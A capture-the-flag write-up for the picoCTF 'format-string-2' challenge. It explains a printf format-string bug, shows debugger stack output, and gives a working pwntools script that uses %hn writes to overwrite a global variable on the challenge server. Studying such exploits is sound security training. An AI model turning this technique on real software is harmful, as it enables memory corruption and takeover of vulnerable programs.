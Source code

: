 ### Challenge Description
---
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

From the description, we now have to change data on the stack, meaning we'll write onto it. 

```
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf); // format string bug here
  printf("\n"); 
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
```
We can use %n to change ``` sus ``` variable to ``` 0x67616c66 ```. Because there is no PIE here, we can use the ``` sus ``` address directly. 
```
gef➤  p &sus
$1 = (<data variable, no debug info> *) 0x404060 <sus>
```
Then, observe the stack before ``` printf(buf); ```.

```
0x00007fffffffd860│+0x0000: 0x00007ffff7fcb7b0  →  0x000e001100000243    ← $rsp
0x00007fffffffd868│+0x0008: 0x00007ffff7ffdab0  →  0x00007ffff7fcb000  →  0x03010102464c457f
  ...
0x00007fffffffd898│+0x0038: 0x00007ffff7fcbca8  →  0x0000000000031fe8
0x00007fffffffd8a0│+0x0040: "aaaaaaaa"   ← $rdi
```
To modify the value at 0x404060 <sus> using a format string vulnerability, we first bring the address onto the stack and prepare to write to it.
The target value, 0x67616c66, is a large number, making it impractical to write directly. 
To address this, we divide the number into two smaller parts for sequential writing.

It's important to note that these two parts must be written in ascending order. 
Specifically, we will first construct a payload to write the lower half, 0x6761. Once this is done, we can proceed with the second part to complete the modification. 
Below is my script:

```
#!/usr/bin/python3

from pwn import *

# r = process('./format-string-2')
r = remote('rhea.picoctf.net', 61179)

sus_addr = 0x404060

payload = f'%{0x6761}c%18$hn'.encode()
payload += f'%{0x6c66 - 0x6761}c%19$hn'.encode()
payload = payload.ljust(32, b'a')
payload += p64(sus_addr + 2)
payload += p64(sus_addr)

r.sendlineafter(b'say?\n', payload)

r.interactive()
```



